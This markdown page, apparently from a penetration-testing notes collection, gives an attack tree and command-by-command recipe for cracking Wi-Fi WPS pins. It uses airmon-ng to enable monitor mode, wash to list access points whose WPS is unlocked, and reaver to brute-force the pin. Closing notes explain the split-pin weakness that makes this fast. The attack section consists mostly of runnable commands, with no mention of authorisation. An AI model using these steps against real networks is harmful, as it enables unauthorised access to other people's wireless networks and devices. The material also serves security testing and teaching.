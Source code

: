 # WPS pin attack

## Attack tree

```text
1 Verify wireless NIC
2 Scan for potential WPS vulnerable networks
3 Brute-force the WPS pin
```

## Example

### Verify wireless NIC

View and document wireless adapter:

```text
# airmon-ng
```

Create an interface that runs in monitor mode:

```text
# airmon-ng start wlan0
```
Write down interface name (something like `wlan0mon`)

### Scan for potential WPS vulnerable networks

Wash is included in the Reaver package:

```text
# wash -i wlan0mon
```

In the list are the BSSIDs (MAC address) of the access points, the channel, and the ESSID (network name), and whether 
the WPS protocol is locked (in other words, whether it is protected from WPS brute-force attacks). Look for a `no`.

### Brute-force the WPS pin

Using Reaver:

```text
# reaver -c <channel> -b <bssid> -i <interface> -vv
```

## Notes

Wi-Fi Protected Setup, or WPS, is a wireless standard protocol used by WPA and WPA2 protected networks that helps 
autoconfigure wireless clients with the wireless encryption password so that they do not need to input the password.

* Many wireless access points and routers have a WPS button that you can press to connect a wireless 
client to the network via the WPS protocol. After clicking the button, you then go to the client device (typically 
a laptop or a smartphone) and choose to connect to the wireless network. You are automatically connected without 
needing to input the wireless password because the wireless access point or router has communicated the configuration 
information to the client for you.
* As part of the WPS standard, wireless access points and routers that support WPS must have an 8-digit pin configured. 
This can be viewed on the wireless access point. When connecting the client to the wireless network, the pin can be 
supplied instead of the wireless password.

The problem with WPS is that the WPS–enabled router is vulnerable to having the WPS cracked due to the fact that the 
pin was originally designed as two 4-pin blocks. It is much quicker to crack two 4-pin blocks than it is one 
8-pin block.

## Tools

* [airmon-ng](https://aircrack-ng.org/doku.php?id=airmon-ng)
* [reaver](https://www.kali.org/tools/reaver/)
